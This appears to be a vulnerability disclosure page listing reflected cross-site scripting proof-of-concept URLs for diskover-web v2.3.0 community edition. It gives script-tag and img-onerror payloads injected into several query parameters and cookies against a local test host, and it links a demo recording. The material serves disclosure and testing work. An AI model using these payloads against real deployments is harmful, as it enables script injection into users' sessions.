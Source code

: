 maxage

```http://172.17.0.1:8080/selectindices.php?maxage=1"><script>alert(2)<%2fscript>&namecontains=&reloadindices&refreshindices```

maxindex

```http://172.17.0.1:8080/selectindices.php?reloadindices=true&maxindex=1%22%3e%3cscript%3ealert(1)%3c%2fscript%3e```

maxindex

```http://172.17.0.1:8080/selectindices.php?reloadindices=true&maxindex=1"><script>alert(1)</script>```

index


```http://172.17.0.1:8080/selectindices.php?indices-table_length=10&index=diskover-my_index_name%22%3e%3cscript%3ealert(1)%3c%2fscript%3e```

```http://172.17.0.1:8080/d3_data_bar_mtime_searchresults.php?path=%2fdata<img src%3da onerror%3dalert(1)>&usecache=1```

```http://172.17.0.1:8080/d3_data_search.php?path=%2fdata<img src%3da onerror%3dalert(1)>&filter=1&time=0&use_count=0&show_files=0&usecache=1```

```http://172.17.0.1:8080/search.php?index=diskover-my_index_name&submitted=true&p=1&q=size%3a<%3d52428800><script>alert(1)<%2fscript>&doctype=file```

```http://172.17.0.1:8080/search.php?index=diskover-my_index_name&submitted=true&p=1&q=size:<=52428800&doctype=file><script>alert(1)<%2fscript>```

```http://172.17.0.1:8080/view.php?id=kF7LTpYBiPlhI5qdCBHk&docindex=diskover-my_index_name&doctype="><script>alert(2)<%2fscript>```

```http://172.17.0.1:8080/view.php?id=kF7LTpYBiPlhI5qdCBHk&docindex=diskover-my_index_name%3cscript%3ealert(1)%3c%2fscript%3e&doctype=file```




Cookie

```
maxindex
index
```

Cookie JSON parameters

```
doctype 
file_size_bytes_low
file_size_bytes_high
last_mod_time_low
file_size_bytes_low 
```

Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/diskover-web_v2.3.0_community_edition_reflected_XSS_via_cookie.gif?raw=true)
